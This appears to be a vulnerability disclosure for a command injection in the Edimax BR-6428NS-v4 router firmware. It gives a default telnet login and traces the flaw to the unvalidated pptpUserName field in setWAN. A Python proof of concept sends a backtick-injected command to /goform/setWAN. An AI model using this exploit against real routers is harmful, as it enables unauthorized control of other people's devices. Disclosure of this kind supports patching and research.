


# Command Injection

Execute commands directly on the router via HTTP POST requests.

## Device Information

**Device**: Edimax Wireless Router BR-6428NS-v4

**Firmware Version**: BR-6428NS_v4_1.10

**Firmware Download Link**: https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4



**Emulation Environment**: ubuntu-18.04.6-desktop-amd64 + [FirmAE](https://github.com/pr0v3rbs/FirmAE) + python-3.6.9

**Emulation Command**:

```shell
sudo ./run.sh -r Edimax ~/Desktop/BR-6428NS_v4_1.10.zip
```


**Router Homepage**:


**Telnet**:

Username and password: root/edimaxens



**Vulnerability Location**: Within the squashfs-root system of the firmware package, specifically in the /bin/webs ELF file’s setWAN function.

## Cause of the Vulnerability

The setWAN function accepts arbitrary input for the pptpUserName parameter without validation, which can execute system commands directly using backticks **`**.

Both wanMode and pptpUserName are supplied via front-end POST.


When **wanMode=3**, it enters the command injection logic.


## PoC

```python
import requests

command = "touch /tmp/fanxiaoyao"
url = "http://192.168.2.1/goform/setWAN"
data = {
    "wanMode":"3",
    "pptpUserName":f"`{command}`"
}

r = requests.post(url, data=data)
#print(r.text)
```

**Execution Result**:

